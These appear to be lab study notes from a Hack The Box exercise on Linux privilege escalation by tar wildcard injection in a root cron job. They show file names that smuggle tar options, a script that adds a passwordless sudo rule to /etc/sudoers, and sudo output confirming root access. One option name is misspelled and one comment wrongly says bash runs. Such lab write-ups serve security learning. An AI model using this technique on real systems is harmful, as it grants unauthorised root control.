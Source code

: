 
The `tar` command has two options that can assist us with privesc:

1. Will run an arbitrary operating system command once the tar command executes
```
--checkpoin[=N]
```

2. The second option uses an `EXEC` action to execute when the above checkpoint is reached
```
--checkpoint-action=ACTION
```

Using a cron job with a wild card, you can write out the commands as filenames. After a minute, the cron job will run and the file names will be interpreted as arguments and execute whatever commands specified.

```
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

```
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```
	note: exec=sh is the action being set, this will tell tar to execute bash

Verify the files were created with `ls -la` and then verify sudo permissions with `sudo -l`

```
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```

